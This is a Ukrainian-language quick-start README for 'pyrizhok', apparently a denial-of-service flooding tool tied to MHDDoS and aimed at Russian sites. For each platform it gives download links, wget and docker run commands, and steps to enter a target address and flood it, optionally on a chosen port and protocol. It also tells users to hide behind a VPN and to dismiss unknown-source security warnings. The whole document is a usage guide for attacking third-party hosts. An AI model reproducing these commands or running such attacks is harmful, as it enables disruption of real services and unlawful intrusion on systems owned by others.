 # Швидкий старт ⚡

Оберіть свою платформу:

- [💻 Windows](#windows)
- [🐧 Linux](#linux)
- [🍎 Mac (Intel)](#mac-intel) / [🍏 Mac (M1)](#mac-m1)
- [🐋 Docker](#docker)

---

### <a name="windows"></a>💻 Windows 

Щоб почати шкварити:

1. Активуйте VPN.
2. Завантажте білд пиріжка [з GitHub.][pyrizhok-build-windows]
3. Запустіть _pyrizhok.exe_ (подвійний клік). Якщо Windows поскаржиться, що програма з невідомого джерела - підтвердіть запуск, це нормально.
4. Введіть адресу цілі та натисніть Enter.

Коли настане час провітрити хату, натисніть _Ctrl+C_ або просто закрийте вікно з програмою.

---

### <a name="linux"></a>🐧 Linux

Щоб почати шкварити:

1. Активуйте VPN.
2. Завантажте білд пиріжка [з GitHub.][pyrizhok-build-linux]
3. Запустіть _pyrizhok_ (подвійний клік).
4. Введіть адресу цілі та натисніть Enter.

Якщо надаєте перевагу терміналу:

2. Завантажте білд пиріжка:
   ```bash
   wget https://github.com/pocket-sunflower/palyanytsya/raw/rozrobka/executables/Linux/pyrizhok
   ```
3. Запустіть пиріжок з адресою ціліил:
   ```bash
   ./pyrizhok https://voenny.korabl.net
   ```

Коли настане час провітрити хату, натисніть _Ctrl+C_ або просто закрийте вікно з програмою.

---

### <a name="mac-intel"></a>🍎 Mac (Intel)

Щоб почати шкварити:

1. Активуйте VPN.
2. Завантажте білд пиріжка [з GitHub][pyrizhok-build-mac-intel].
3. Запустіть _pyrizhok_ (правою кнопкою миші по файлу, відкрити, погодитися на запуск). 
4. Введіть адресу цілі та натисніть Enter.

Коли настане час провітрити хату, натисніть _Ctrl+C_ або просто закрийте вікно з програмою.

---

### <a name="mac-m1"></a>🍏 Mac (M1)

Щоб почати шкварити:

1. Активуйте VPN.
2. Завантажте білд пиріжка [з GitHub][pyrizhok-build-mac-m1].
3. Запустіть _pyrizhok_ (правою кнопкою миші по файлу, відкрити, погодитися на запуск). 
4. Введіть адресу цілі та натисніть Enter.

Коли настане час провітрити хату, натисніть _Ctrl+C_ або просто закрийте вікно з програмою.

---

### <a name="docker"></a>🐋 Docker

Щоб почати шкварити:

1. Активуйте VPN.
2. Запустіть пиріжок через Docker з адресою цілі:
    ```bash
    docker run -it pocketsunflower/pyrizhok:latest https://voenny.korabl.net
    ```
3. _(опціонально)_ Якщо треба дамажити нестандартний порт та протокол, просто додайте їх до команди:
   ```bash
   docker run -it pocketsunflower/pyrizhok:latest https://voenny.korabl.net 53 TCP
   ```
   
Коли настане час провітрити хату, натисніть _Ctrl+C_ або вбийте контейнер іншим чином.

---

<div style="text-align: center">Все буде Україна 💙💛</div>


<!--- References --->
[mhddos-github]: https://github.com/MHProDev/MHDDoS
[pyrizhok-build-windows]: https://github.com/pocket-sunflower/palyanytsya/raw/rozrobka/executables/Windows/pyrizhok.exe
[pyrizhok-build-linux]: https://github.com/pocket-sunflower/palyanytsya/raw/rozrobka/executables/Linux/pyrizhok
[pyrizhok-build-mac-intel]: https://github.com/pocket-sunflower/palyanytsya/raw/rozrobka/executables/Mac%20(Intel)/pyrizhok
[pyrizhok-build-mac-m1]: https://github.com/pocket-sunflower/palyanytsya/blob/rozrobka/executables/Mac%20(M1)/pyrizhok
